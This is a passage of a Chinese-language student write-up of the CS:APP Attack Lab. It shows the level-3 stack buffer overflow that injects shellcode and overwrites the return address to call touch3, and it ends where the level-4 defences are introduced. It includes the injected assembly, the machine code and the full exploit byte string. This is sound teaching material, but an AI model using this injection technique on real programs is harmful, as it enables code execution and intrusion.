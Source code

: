 ```C
	exit(0);
}
```

和第二关类似，我们需要传入`cookie`字符串并跳转到`touch3`。但需要注意`hexmatch`函数被调用后，会覆盖一部分`getbuf`的缓冲区。为了避免这一点，可以将`cookie`字符串放到`test`的栈帧里。这一关的思路如下：

* 将返回地址改写为注入代码所在的地址。栈的地址可以用`gdb`跑一把程序确认

* 将`cookie`字符串放到`test`的栈帧里。在注入代码中，将`cookie`串的首地址传递到`%rdi`。
* 确定`touch3`的起始地址并跳转。可利用`push`和`ret`指令实现跳转

与第二关类似，编写如下注入代码，保存到文件`inject3.s`

```assembly
mov   $0x5561dca8,%rdi		# 将cookie字符串放到test栈帧中，这里放到返回地址(0x5561dca0)+0x8处
pushq $0x4018fa				# 将touch3起始地址压栈
retq						# 将touch3地址退栈，并跳转执行touch3
```

执行`gcc -c inject3.s`, `objdump -d inject3.o`， 将汇编文件转为二进制， 得到如下机器码：

```assembly
0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

我第一次写这块汇编代码时，犯了两个错误：

* 将`$0x5561dca8`错写成`$0x5561dca4`, 导致段错误。**注意64位机器上执行压栈和退栈操作，栈指针`%rsp`应该减去或加上`8`，而不是`4`**

* `pushq  $0x4018fa`中漏写了`$`符号，导致压栈的数据不对。**注意对立即数操作时必须加上$符号**

用`man ascii`查表 ，将字符串`59b997fa`转成ASCII码：`35 39 62 39 39 37 66 61`

综上，得到我们需要输入字符串

```txt
48 c7 c7 a8 dc 61 55 68				# 攻击代码位于地址0x5561dc78
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00				# 改写返回地址为0x5561dc78
35 39 62 39 39 37 66 61				# cookie字符串
00 00 00 00 00 00 00 00
```

此时的栈组织如下：
![](image4.png)
### 第四关

在前三关，我们插入攻击代码，同时插入指向攻击代码的指针，而产生这个指针需要跑下代码确认栈的地址。但是在第四、五关的`rtarget`程序中，采用了如下策略防止代码注入攻击：

* **栈随机化**，每次运行相同的程序，它们的栈地址是不同的。
* **限制可执行代码区域**，栈是不可执行的。
